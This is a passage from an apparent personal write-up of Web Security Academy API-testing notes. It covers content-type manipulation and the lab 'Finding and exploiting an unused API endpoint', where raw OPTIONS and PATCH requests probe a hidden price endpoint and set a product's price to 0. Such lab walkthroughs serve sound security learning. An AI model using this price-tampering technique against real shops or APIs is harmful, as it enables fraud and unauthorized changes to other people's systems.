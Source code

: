 -    GET /api/tasks - Retrieves a list of tasks.
-    POST /api/tasks - Creates a new task.
-    DELETE /api/tasks/1 - Deletes a task.

API endpoints often expect data in a specific format. They may therefore behave differently depending on the content type of the data provided in a request. Changing the content type may enable you to:

-    Trigger errors that disclose useful information.
-    Bypass flawed defenses.
-    Take advantage of differences in processing logic. For example, an API may be secure when handling JSON data but susceptible to injection attacks when dealing with XML.

To change the content type, modify the Content-Type header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON. 

### Lab: Finding and exploiting an unused API endpoint

To solve the lab, exploit a hidden API endpoint to buy a Lightweight l33t Leather Jacket. You can log in to your own account using the following credentials: wiener:peter. 

This request return the following reponse:
```
OPTIONS /api/products/1/price HTTP/2
```
```
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```
Then, I tried:
```
PATCH /api/products/1/price HTTP/2
```
```json
{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```
Next request:
```
PATCH /api/products/1/price HTTP/2
Host: 0a2a0018042fdb4c85629c4a0036000a.web-security-academy.net
Cookie: session=XgVAd2q4Vzt5nvqILgy7v5yqEf6QF9nc
Content-Type: application/json
Content-Length: 15

{"test":"test"}
```
```json
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```
Final request to solve the lab:
```
PATCH /api/products/1/price HTTP/2
Host: 0a2a0018042fdb4c85629c4a0036000a.web-security-academy.net
Cookie: session=XgVAd2q4Vzt5nvqILgy7v5yqEf6QF9nc
Content-Type: application/json
Content-Length: 11

{"price":0}
```
### Using Intruder to find hidden endpoints
